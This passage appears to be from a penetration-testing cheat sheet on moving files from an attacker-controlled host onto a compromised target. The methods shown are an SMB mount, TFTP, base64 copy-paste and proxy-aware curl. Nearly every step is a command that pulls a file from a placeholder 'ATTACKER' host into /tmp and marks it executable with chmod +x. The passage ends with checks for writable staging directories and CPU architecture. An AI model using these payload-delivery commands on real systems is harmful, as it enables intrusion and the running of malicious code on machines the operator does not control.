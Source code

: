 Optional mount (needs privileges):
```bash
sudo mkdir -p /mnt/smb
sudo mount -t cifs //ATTACKER/share /mnt/smb -o guest,vers=3.0
cp /mnt/smb/FILE /tmp/FILE
sudo umount /mnt/smb
chmod +x /tmp/FILE
```

### E) TFTP (legacy/UDP 69; insecure; only if available)
Attacker (simple TFTP server setup on Debian-like):
```bash
sudo apt-get update && sudo apt-get install -y atftp tftpd-hpa
sudo mkdir -p /srv/tftp && sudo cp FILE /srv/tftp/
# Ensure tftpd-hpa is serving /srv/tftp on UDP 69
sudo systemctl restart tftpd-hpa
```

Target:
```bash
# BSD tftp client syntax
tftp ATTACKER -c get FILE /tmp/FILE

# BusyBox variant
busybox tftp -g -r FILE -l /tmp/FILE ATTACKER
chmod +x /tmp/FILE
```

### F) Base64 copy-paste (last resort)
Attacker:
```bash
base64 -w 0 FILE > FILE.b64
```

Target:
```bash
cat > /tmp/FILE.b64 <<'EOF'
PASTE_BASE64_DATA_HERE
EOF
base64 -d /tmp/FILE.b64 > /tmp/FILE
chmod +x /tmp/FILE
```

### G) Environment/proxy helpers and verification
Proxy-aware pulls:
```bash
# If a proxy is required
export http_proxy=http://PROXY:PORT
export https_proxy=http://PROXY:PORT
curl -fsSLo /tmp/FILE http://ATTACKER:8000/FILE
```

Check writeable locations and architecture:
```bash
# Staging dirs commonly writeable
ls -ld /tmp /dev/shm /var/tmp

# Verify binary compatibility
file /tmp/FILE
uname -m
sha256sum /tmp/FILE
```
